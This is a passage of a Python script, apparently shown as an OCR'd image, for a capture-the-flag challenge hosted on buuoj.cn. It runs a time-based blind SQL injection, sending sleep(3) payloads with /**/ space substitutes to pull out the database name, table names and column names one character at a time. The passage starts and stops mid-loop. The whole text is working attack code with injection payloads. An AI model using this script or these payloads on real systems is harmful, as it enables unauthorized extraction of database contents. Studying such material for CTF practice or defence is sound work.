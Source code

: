 ```python
    for char in chars:
        charAscii = ord(char) #char转换为ascii
        url = 'http://aa747dea-4776-4d4f-9c3f-6846c5f580aa.node4.buuoj.cn:81/?id=1/**/and/**/if(ascii(substr(database(),{0},1))>{1},1,sleep(3))#'
        urlformat = url.format(i,charAscii)
        start_time = time.time()
        requests.get(urlformat)
        if  time.time() - start_time > 2:
            database+=char
            print('database第{}个字符：{}'.format(i, database))
            break
        else:
            pass
print('database： ' + database)

#爆表
for l in range(1,20):
    Url = "http://aa747dea-4776-4d4f-9c3f-6846c5f580aa.node4.buuoj.cn:81/?id=1/**/and/**/if(length((select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/like('ctf')))>{0},1,sleep(3))#"
    UrlFormat = Url.format(l)      
    start_time0 = time.time()  		
    requests.get(UrlFormat)
    if  time.time() - start_time0 > 2:	
            print('table长度为：' + str(l))
            global TB_length 
            TB_length = l	
            break
    else:
        pass
for i in range(1,TB_length+1):
    for char in chars:
        charAscii = ord(char) #char转换为ascii
        url = "http://aa747dea-4776-4d4f-9c3f-6846c5f580aa.node4.buuoj.cn:81/?id=1/**/and/**/if(ascii(substr((select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/like('ctf')),{0},1))>{1},1,sleep(3))#"
        urlformat = url.format(i,charAscii)
        start_time = time.time()
        requests.get(urlformat)
        if  time.time() - start_time > 2:
            table+=char
            print('table第{}个字符：{}'.format(i, table))
            break
        else:
            pass
print('table： ' + table)

#爆列
for l in range(1,20):
    Url = "http://aa747dea-4776-4d4f-9c3f-6846c5f580aa.node4.buuoj.cn:81/?id=1/**/and/**/if(length((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name/**/like('items')))>{0},1,sleep(3))#"
    UrlFormat = Url.format(l)      
    start_time0 = time.time()  		
    requests.get(UrlFormat)
    if  time.time() - start_time0 > 2:	
            print('column长度为：' + str(l))
            global CL_length 
            CL_length = l	
            break
    else:
        pass
for i in range(1,CL_length+1):
```